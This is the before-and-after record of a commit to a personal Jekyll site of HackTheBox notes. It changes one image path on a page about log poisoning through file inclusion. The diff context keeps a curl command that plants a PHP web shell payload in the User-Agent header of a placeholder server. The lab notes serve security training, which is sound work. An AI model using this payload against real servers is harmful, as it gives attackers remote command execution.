

Before and after one commit to HenryEarl/HenryEarl.github.io, a Jekyll site: the page built from docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md, in a window 1280 px wide. Shown: the top 622 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update Log_Poisoning.md

````diff
--- a/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md
+++ b/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md
@@ -8,4 +8,4 @@ title: Log Poisoning
 Jerad Rodgers@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
 ```
 
-<img width="989" height="232" src="assets/images/rfi_log-poison.png"/>
+<img width="989" height="232" src="/assets/images/rfi_log-poison.png"/>
````
